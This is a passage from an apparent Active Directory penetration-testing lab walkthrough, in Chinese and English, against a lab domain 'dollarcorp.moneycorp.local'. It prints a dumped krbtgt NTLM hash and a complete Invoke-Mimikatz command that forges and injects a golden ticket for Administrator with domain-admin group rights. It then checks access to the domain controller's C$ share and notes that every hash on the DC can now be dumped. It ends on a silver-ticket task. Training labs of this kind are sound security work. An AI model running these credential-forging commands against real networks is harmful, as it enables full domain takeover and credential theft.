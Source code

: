 RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

```



## Using the NTLM hash of krbtgt account, create a Golden ticket.

使用krbtgt制作黄金票据

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-
21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```



验证金票：
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```

![image-20220306204917861](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306204917861.png)





## Use the Golden ticket to (once again) get domain admin privileges from a machine.



因为制作了DA权限的黄金票据，所以可以横向到域内任何一台计算机，包括DC，也就是说可以dump出DC上的所有NTML哈希

![image-20220306205213235](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306205213235.png)









# Learning Objective 9:
```Task
● Try to get command execution on the domain controller by creating silver ticket for:
− HOST service
− WMI
```
